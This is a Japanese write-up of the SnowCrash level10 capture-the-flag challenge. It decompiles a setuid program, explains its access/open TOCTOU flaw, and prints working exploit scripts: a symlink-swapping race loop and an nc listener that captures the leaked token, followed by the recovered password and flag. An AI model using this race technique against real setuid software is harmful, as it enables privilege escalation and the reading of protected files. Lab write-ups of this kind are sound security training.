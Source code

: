 ## ~に存在するファイルを確認
```sh
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

## ghidraでdisassする

```c
void main(int ac, char **argv)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *file_name;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;

  if (ac < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  file_name = (char *)argv[1];
  __cp = (char *)argv[2];

  iVar2 = access((char *)argv[1],R_OK);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24, 0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(file_name,O_RDONLY);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      file_name = strerror(*piVar5);
      printf("Unable to read from file: %s\n",file_name);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",file_name);
  }

  return;
}
```
## 関数のポイント
`access((char *)argv[1],R_OK);` は実ユーザーでファイル読み取り権限を確認するため、`level10`ユーザーが`token`を引数に渡すとでエラーになる。
一方、`open(file_name,O_RDONLY);` は実効ユーザーである`flag10` の権限でファイルアクセス権限を確認する。
したがって、`access((char *)argv[1],R_OK);`をうまく突破すれば`token`の中身を確認することができる。

`TOCTOU`というのがある。チェックと使用タイミングのズレがあると問題になる。つまり、`open` と`access` の間に脆弱性がある。
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
## エクスプロイト

### シンボリックリンクを操作するスクリプト
１つ目のスクリプトは、実ユーザー権限がある`/tmp/sym_token`を読み込ませて、`access`関数を突破する。
その後、`read`関数の前までに`/tmp/sym_token` と`token`をシンボリックリンクし、`token`を`write`する。

```sh
echo '#!/bin/bash' > /tmp/script
echo 'while true; do' >> /tmp/script
echo '> /tmp/sym_token' >> /tmp/script
echo './level10 /tmp/sym_token  127.0.0.1 &' >> /tmp/script
echo 'ln -sf /home/user/level10/token /tmp/sym_token' >> /tmp/script
echo 'rm -f /tmp/sym_token' >> /tmp/script
echo 'done' >> /tmp/script

chmod +x /tmp/script
```

inet_addr();がlocalhostのような文字列を127.0.0.1として解決してくれない。

### 受信した文字列をファイルに保存するスクリプト
```sh
echo '#!/bin/bash' > /tmp/script1
echo '> /tmp/pw' >> /tmp/script1
echo 'while true; do' >> /tmp/script1
echo 'nc -l 6969 >> /tmp/pw' >> /tmp/script1
echo 'done' >> /tmp/script1

chmod +x /tmp/script1
```
### 実行
タイミングを完璧に制御できないため、試行回数でカバーする必要がある。
```sh
/tmp/script > /dev/null 2>&1 &
/tmp/script1 > /dev/null 2>&1 &

# 少し経ったらプロセスを終了する
pkill -f /tmp/script
pkill -f /tmp/script1
```

### 確認する
```sh
grep -v '\.\*\( \)*' /tmp/pw
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

```sh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
